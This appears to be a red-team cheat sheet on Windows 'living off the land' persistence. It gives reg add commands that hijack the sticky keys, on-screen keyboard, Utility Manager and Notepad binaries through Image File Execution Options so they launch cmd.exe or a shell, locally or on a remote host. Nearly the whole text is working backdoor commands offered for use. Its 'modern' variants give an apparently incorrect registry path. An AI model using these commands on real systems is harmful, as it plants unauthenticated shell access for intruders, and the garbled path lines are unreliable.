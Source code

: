 # Living off the Land

TODO: Convert the commands to cmdlets

## Sticky Keys

> [!INFO] Shortcut Key
> To trigger the backdoor hit `SHIFT` 5 times

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

## Accessibility On-Screen Keyboard

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

## Utility Manager

> [!INFO] Shortcut Key
> To trigger the backdoor hit `Win + U`

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\Windows\system32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

## Notepad

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\shell.exe" /f
```

For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\shell.exe" /f
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [RDP hijacking — how to hijack RDS and RemoteApp sessions transparently to move through an organisation](https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)